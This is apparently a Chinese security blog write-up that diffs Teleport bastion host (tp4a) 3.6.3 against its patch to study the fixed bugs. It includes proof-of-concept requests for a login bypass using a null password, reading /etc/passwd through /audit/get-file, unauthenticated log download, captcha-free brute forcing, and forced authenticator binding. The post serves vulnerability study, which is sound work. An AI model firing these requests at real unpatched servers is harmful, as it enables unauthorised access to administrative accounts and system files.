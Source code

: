 ```yaml
---
title: "teleport堡垒机审计学习"
date: 2022-09-16T12:00:00+08:00
draft: false
author: "r0fus0d & kitezzzGrim"

---
```


代码审计做的比较少，看到大佬发的分析文章，正好学习下
- https://www.o2oxy.cn/4132.html

<!--more-->

---

访问下载页面 https://tp4a.com/download

更新公告里说明了几个漏洞情况

![](../../img/teleport_case/1.png)

下载 补丁包和原版包，进行对比

## 任意用户登录

![](../../img/teleport_case/2.png)

补丁里对几种登录类型进行了验证，不允许 password 值为 null

可以看下验证登录的函数 login,在 data/www/teleport/webroot/app/model/user.py

![](../../img/teleport_case/7.png)

在 password 为null 的时候就跳过了验证

poc
```
抓包，把密码改为 null 即可
      {
          "type":2,
          "username":"admin",
          "password":null,
          "captcha":"rhcl",
          "oath":"",
          "remember":false
      }
```

顺便可以看下在 tp-const.js 里的几种登录类型的定义

![](../../img/teleport_case/6.png)

这里 type 为 2 就是 TP_LOGIN_AUTH_USERNAME_PASSWORD_CAPTCHA 也就是 用户名+密码+验证码 类型

---

## 后台文件下载

![](../../img/teleport_case/3.png)

修复补丁给 DoGetFileHandler 函数加上了一个限制，仅允许读取

找下路由

![](../../img/teleport_case/8.png)

验证了权限，所以是后台洞

![](../../img/teleport_case/9.png)

poc
```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
```

---

## 前台日志下载

这时我发现升级描述里还有一句 `修正：经过特别构造的请求，无需登录即可读取TP系统操作日志；` ,这个洞应该也是未授权的.

下载 teleport-server-linux-x64-3.6.4-b3.tar.gz 和 3.6.3 对比下

![](../../img/teleport_case/4.png)

果然，补丁给 DoGetLogsHandler 这个函数加上了权限验证,看下他的路由

![](../../img/teleport_case/5.png)

poc
```
    POST http://xxx.xxx.xxx.xxx/system/get-logs HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Length: 162
    Content-Type: application/x-www-form-urlencoded;
    Connection: close

    args=%7B%22filter%22%3A%7B%7D%2C%22order%22%3A%7B%22k%22%3A%22log_time%22%2C%22v%22%3Afalse%7D%2C%22limit%22%3A%7B%22page_index%22%3A0%2C%22per_page%22%3A25%7D%7D
```

---

## 绕过验证码爆破

继续看路由，发现BindOathHandler这个函数也不需要鉴权，这个路由下还存在登陆点且无需验证码

poc
```
/user/bind-oath
```

```
POST /user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 102
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3A%22123456%22%2C%22check_bind_oath%22%3Atrue%7D
```

不过注意,默认口令启用强密码策略，要求密码至少8位，必须包含大写字母、小写字母以及数字

---

## 强行绑定身份验证器

同样是BindOathHandler这个函数,看了下他返回user/bind-oath.mako的模版，模版里向/user/verify-user 发送认证请求，通过路由定位到函数DoVerifyUserHandler

![](../../img/teleport_case/10.png)

可以看到，这里也是用 user.login 函数认证的，所以 password 直接用 null 就可以绕过了

poc
```
POST http://xx.xx.xx.xx/user/verify-user HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 94
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _sid=tp_1663328293_17c56ddafdb179f0
Connection: close

args=%7B%22username%22%3A%22admin%22%2C%22password%22%3Anull%2C%22check_bind_oath%22%3Atrue%7D
```

![](../../img/teleport_case/11.png)

同样，下一个包也设为 null 即可

这洞没啥用，可以用于恶心管理员 😝

---

## 一些思考

1. 根据这个权限验证代码的存在与否可以找前台未授权的点，那么能不能实现自动找未授权页面？
2. 几个权限绕过本质上是 login 函数的问题，可以根据login函数调用点找漏洞触发点
